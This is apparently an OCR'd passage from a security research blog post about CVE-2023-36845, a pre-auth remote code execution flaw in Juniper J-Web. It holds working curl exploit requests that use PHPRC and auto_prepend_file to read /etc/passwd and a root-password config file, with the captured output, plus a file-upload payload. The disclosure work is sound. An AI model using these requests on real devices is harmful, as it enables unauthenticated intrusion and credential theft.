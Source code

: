 auto\_prepend\_file="/etc/passwd\\n"' -F 'PHPRC=/dev/fd/0'\\nroot:\*:0:0:Charlie &:/root:/bin/csh\\ndaemon:\*:1:1:Owner of many system processes:/root:/sbin/nologin\\noperator:\*:2:5:System &:/:/sbin/nologin\\nbin:\*:3:7:Binaries Commands and Source:/:/sbin/nologin\\ntty:\*:4:65533:Tty Sandbox:/:/sbin/nologin\\nkmem:\*:5:65533:KMem Sandbox:/:/sbin/nologin\\ngames:\*:7:13:Games pseudo-user:/usr/games:/sbin/nologin\\nman:\*:9:9:Mister Man Pages:/usr/share/man:/sbin/nologin\\nsshd:\*:22:22:Secure Shell Daemon:/var/empty:/sbin/nologin\\next:\*:39:39:External applications:/:/sbin/nologin\\nbind:\*:53:53:Bind Sandbox:/:/sbin/nologin\\nuucp:\*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/sbin/nologin\\nnobody:\*:65534:65534:Unprivileged user:/nonexistent:/sbin/nologin\\n\\n\\n \\n \\n \\n Log In - Juniper Web Device Manager\\n \\n \\n\`\`\`\\n\\nWhen an attacker uses this form of attack, httpd.log (and all other logs as far as we can tell) are essentially useless. Determining if you’ve been compromised by a careful attacker will be quite difficult.\\n\\n\\n## Summary\\n\\nIn this blog, we demonstrated how CVE-2023-36845, a vulnerability flagged as “Medium” severity by Juniper, can be used to remotely execute arbitrary code without authentication. We’ve turned a multi-step (but very good) exploit into an exploit that can be written using a single curl command and appears to affect more (older) systems.\\n\\nAdditionally, we found that the vast majority of internet-facing Juniper systems remain vulnerable to this issue. There is some evidence of exploitation in the wild, and given how slow patching is going, we suspect this will be a useful exploit for attackers for quite some time.\\n\\n\\n## Appendix\\n\\n### CVE Clarification\\n\\nThe original advisory published by Juniper (\[2023-08\](https://supportportal.juniper.net/s/article/2023-08-Out-of-Cycle-Security-Bulletin-Junos-OS-SRX-Series-and-EX-Series-Multiple-vulnerabilities-in-J-Web-can-be-combined-to-allow-a-preAuth-Remote-Code-Execution?language=en\_US)), contains five CVE identifiers, but only two CVE descriptions (they are repeated between the five) and one (entirely erroneous) CVSSv3 score for all of the vulnerabilities. There is essentially no way to distinguish CVE-2023-36844 and CVE-2023-36845 from CVE-2023-36846, or CVE-2023-36847 from CVE-2023-36851. To be clear, this is not how CVE descriptions should work, and Juniper should do better. \\n\\nwatchtowr refers to CVE-2023-36845 and CVE-2023-36846 in their writeup, so, for consistency, we do as well.\\n\\n### Secondary File Upload Mechanism\\n\\nOur test system has the Appweb file upload mechanism enabled. An attacker could upload arbitrary files to \`/var/tmp\` like so:\\n\\n\`\`\`sh\\n$ curl -v -F 'upload=@/tmp/php.ini' http://10.12.72.1/\\n\`\`\`\\n\\nOn the firewall, a file will be created with the name of “MPR\_%d\_%d\_%d.tmp”. Where the first %d is the httpd process ID. The second %d is a 16-bit number calculated using the current time, and the last %d is a one-up counter. These values are small enough that they could be brute-forced and used with the original watchTowr exploit.\\n\\n\`\`\`sh\\nroot@junSRX210% ls -l\\ntotal 32\\n-rw-r--r-- 1 nobody wheel 96 Sep 13 23:15 MPR\_1479\_59421\_1.tmp\\nroot@junSRX210% cat MPR\_1479\_59421\_1.tmp\\nallow\_url\_include=On\\nauto\_prepend\_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="\\n\`\`\`\\n\\n## Root Credentials Disclosure\\n\\nUsing the file disclosure mechanism mentioned above, we are able to leak the root credentials as they were at configuration time. We have no idea if this works on even slightly modern Juniper, but it was a neat tidbit. There is a file called \`wiz\_config\_server.txt\` sitting in \`/var/tmp/\`. Here is a very truncated version that shows the \`root\` user password:\\n\\n\`\`\`sh\\n$ curl -kv "http://10.12.72.1/about.php?PHPRC=/dev/fd/0" --data-binary 'auto\_prepend\_file="/var/tmp/wiz\_config\_server.txt"'\\n\* Trying 10.12.72.1:80...\\n\* TCP\_NODELAY set\\n\* Connected to 10.12.72.1 (10.12.72.1) port 80 (#0)\\n> POST /about.php?PHPRC=/dev/fd/0 HTTP/1.1\\n> Host: 10.12.72.1\\n> User-Agent: curl/7.68.0\\n> Accept: \*/\*\\n> Content-Length: 50\\n> Content-Type: application/x-www-form-urlencoded\\n>\\n\* upload completely sent off: 50 out of 50 bytes\\n\* Mark bundle as not supporting multiuse\\n< HTTP/1.1 200 OK\\n< Date: Wed, 13 Sep 2023 23:27:51 GMT\\n< Server: Embedthis-Appweb/3.2.3\\n< Cache-Control: no-cache\\n< ETag: "1e0cc-40e-51b0b0ec"\\n< Content-Type: text/html\\n< Connection: keep-alive\\n< Keep-Alive: timeout=120, max=199\\n< Last-Modified: Wed, 13 Sep 2023 23:27:51 GMT\\n< x-powered-by: PHP/5.3.2\\n< Transfer-Encoding: chunked\\n<\\n…\\n",\\\\\\"rootpassword\\\\\\":\\\\\\"labpass1\\\\\\",\\n…\\n\`\`\`\\n

#### [Source](https://vulncheck.com/blog/juniper-cve-2023-36845)

<br/>
---

